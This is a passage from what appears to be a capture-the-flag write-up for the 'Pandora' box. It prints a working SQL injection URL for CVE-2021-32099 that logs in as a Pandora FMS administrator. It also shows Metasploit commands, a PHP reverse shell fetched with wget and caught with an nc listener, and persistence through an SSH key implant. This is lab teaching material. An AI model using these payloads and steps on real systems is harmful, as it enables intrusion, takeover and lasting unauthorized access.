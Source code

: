 Searching for CVE-2021-32099 finds [ibnuuby/CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099), which contains a proof of concept:

```
POC : http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

We can change the port from the proof of concept from `8000` to `8080` since that is what we are using. Now, going to `http://localhost:8080/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271` in your browser and then navigating back to `http://localhost:8080/pandora_console/` will log you into PandoraFMS as an administrator. A video of this happening can be seen on the blog post linked from the repo: [Pandora FMS 742: Critical Code Vulnerabilities Explained](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained).

Clicking on `admin` in the top right brings you to a page where you can edit your user's details. I changed the password to `admin` and then clicked "Update" at the bottom.

Now that we have the credentials to an account, let's try some of the previous exploits we found. For metasploit, run the following:

```
sudo msfconsole
use exploit/linux/http/pandora_fms_events_exec
set password admin
set rport 8080
set rhosts localhost
set lhost tun0
set autocheck false
run
```

This exploit fails. The exploit `linux/http/pandora_ping_cmd_exec` also fails even after I created a new user in the interface. [This exploit-db script](https://www.exploit-db.com/exploits/48064) fails as well. Also, [TheCyberGeek/CVE-2020-5844](https://github.com/TheCyberGeek/CVE-2020-5844) fails too. TheCyberGeek's script probably is supposed to work since he is one of the creators of this box. Additionally, after solving the box, I found this repo: [shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated). So, this exploit might also work.

Since we are an administrator we can upload files by going to `Admin tools > File manager` on the left. So, lets get a PHP reverse shell with `wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`, edit in our ip address and port, start a listener with `nc -nvlp 28600` and then go to `http://localhost:8080/pandora_console/images/php-reverse-shell.php` on the server to get a reverse shell. This is successful!

We can get persistance with `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in `pwncat`. I set the permissions of the `.ssh` folder to be what they should be with `chmod 700 .ssh && chmod 600 .ssh/authorized_keys`.

We can finally run `cat /home/matt/user.txt` to get the `user.txt` flag.

## Privilege Escalation
